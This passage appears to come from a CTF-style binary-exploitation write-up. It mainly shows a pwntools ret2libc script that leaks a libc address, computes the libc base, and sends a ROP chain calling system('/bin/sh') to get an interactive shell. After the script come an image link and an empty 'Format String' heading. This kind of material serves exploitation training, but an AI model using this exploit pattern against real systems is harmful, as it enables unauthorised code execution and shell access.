 ```
sla(b'\n', payload)

libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - libc.sym.puts
log.info("Libc base: " + hex(libc.address))

### GET SHELL ###
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)

p.interactive()
```

![alt text](images/image-12-2.png)
---

### Format String

![alt text](images/image3-0.png)
